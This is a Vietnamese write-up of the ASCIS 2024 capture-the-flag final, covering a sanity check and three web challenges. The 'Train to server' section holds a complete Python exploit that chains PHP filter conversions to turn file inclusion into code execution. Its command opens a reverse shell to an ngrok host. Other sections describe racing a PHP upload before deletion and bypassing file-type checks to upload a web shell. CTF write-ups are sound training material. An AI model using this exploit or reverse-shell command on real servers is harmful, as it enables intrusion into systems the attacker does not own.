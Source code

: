 ```yaml
---
title: "ASCIS 2024 (Final)"
description: "ASCIS CTF 2024 Final Writeup"
summary: "ASCIS CTF 2024 Final Writeup"
categories: ["Writeup"]
tags: ["Web", "PWN", "Reverse", "Crypto", "Forensic"]
#externalUrl: ""
date: 2024-10-20
draft: false
authors:
  - shr3wd
---
```


## Misc

### Sanity  Check

Bài này flag được đặt ở trong phần alt của ảnh được mô tả ở đề bài

![image.png](image/image.png)

Flag: `ASCIS{WishYouWillHaveAGoodDayAtASCIS2024}`

## Web

### **Rootme bro**

- Với bài này, mình nghe web player bên mình bảo là cuối giờ btc mới đưa hint. Trong hint là source code, và trong source code là … flag!??
- Chỉ cần đổi ASCIS thành VNISA và submit là done :>

Tuy nhiên, khi mình phân tích source code để xem ý tưởng của tác giả thế nào thì phát hiện trong folder `exam/page` có một file là `file_race_condition.php`

⇒ Có lẻ mục đích của tác giả là sử dụng `Race Codition` để upload được một file php lên hệ thống rôi sau đó RCE để đọc được flag.

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $target_dir = "../uploads/";
    $user_session = $_SESSION['user_id'];

    $target_file = $target_dir .$user_session.'_'. basename($_FILES["file"]["name"]);
    $uploadOk = 1;
    

    // Move file to target directory without checks
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)) {
        // Introduce a delay (simulating a potential race condition window)
        //sleep(2);

        // Check MIME type and file type
        if (checkmime($target_file) && checkFileType($target_file)) {
            echo "The file ". htmlspecialchars($target_file). " has been uploaded.<br>";
            echo "The file is stored in " . $target_file . "<br>";
            //echo "<img src='$target_file' alt='Uploaded Image' style='max-width: 100%; height: auto;'><br>";
        } else {
            unlink($target_file);
            echo "Sorry, there was an error uploading your file.<br>";
            http_response_code(403);
        }
    } else {
        //echo "Sorry, there was an error moving your file.<br>";
    }
}
```

⇒ Qua đoạn code của tác giả thì có thể thấy được file khi upload lên sẽ luôn được move vào folder uploads của người dùng, sau đó file mới được kiểm tra `mime` và `filetype` rồi mới bị xóa đi nếu như không hợp lệ.

Qua đây, có thể sử dụng Race Codition để truy cập tới file php đang được upload lên trước khi nó bị xóa đi để có thể RCE được server.

### **Train to server**

Với bài này thì khi đăng nhập thành công với tài khoản là `admin:admin` thì sẽ được đưa tới một trang có dính lỗi `LFI (Local File Include)` với parameter là `file` . Tuy nhiên, mình thử dò file flag ở một số nơi thì lại không có nên mình đoán là phải RCE nên mình đã thử dùng một số payload wrapper của PHP nhưng nó không hoạt động. Reseach trên mạng thì thấy có một bài tương tự và có sẵn payload nên mình sử dụng để RCE luôn

```php
import requests

url = "http://183.91.11.30:8889/page.php"
file_to_use = "php://temp"
command = "php -r '$sock=fsockopen(\"0.tcp.ap.ngrok.io\",18336);exec(\"sh <&3 >&3 2>&3\");'"
#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}

# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"

for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "file": final_payload
})

print(r.text)
```

RCE server và mình phát hiện flag nằm ở cùng thư mục và nó nằm trong Dockerfile =)))))

⇒ Đáng ra nên fuzz bài này để tìm flag nhanh hơn :> 

### **DocMan**

Bài này được cung cấp source code.

Mình thử sử dụng trang web để xem các tính năng của nó thì phát hiện trang web cho phép upload các file `pdf|word`  và cho phép xem hoặc tải xuống các file được upload lên. Tuy nhiên, khi reload lại trang thì đường dẫn tới các file này biến mất???

Oke, tới đây mình phân tích source code và để ý thấy ở file `lib.php` (Đây là file php dùng để xử lý và filter các file upload lên).

```php
function checkFileName($name) {
  return preg_match("/\.(docx|pdf)$/", strtolower($name));
}
function checkFileType($type) {
  return preg_match("/^(application\/vnd\.openxmlformats\-officedocument\.wordprocessingml\.document|application\/pdf)$/", strtolower($type));
}
function checkFileSize($size) {
  return ($size >= 1000 && $size <= 100000 ? true : false);
}
function checkFileMagic($fn) {
  $handle = fopen($fn, 'r');
    $magic = strtoupper(bin2hex(fread($handle, 8)));
    fclose($handle);
  return ($magic == "504B030414000600" || substr($magic, 0, 8)  == "25504446");
}
```

- Check extension: extension cuối của file phải là docx hoặc pdf ⇒ Có thể chèn các extension khác vào như `a.php .pdf`
- Check File type: file type của các file phải thuộc doc hoặc pdf ⇒ Dùng burp suite hoặc các công cụ chỉnh sửa request khác có thể bypass được.
- Check file size: ở đây, đoạn code sẽ check size ⇒ Có thể chèn dữ liệu vào file để bypass
- Check file magic: ở đây đoạn code sẽ check 8 byte đầu của file có khớp với các byte mà dev lập trình sẵn hay không ⇒ Có thể bypass bằng burp

⇒ Tổng hợp lại tất cả, lúc này chỉ cần upload một file php với các lớp bypass trên thì có thể RCE được server và đọc được flag.
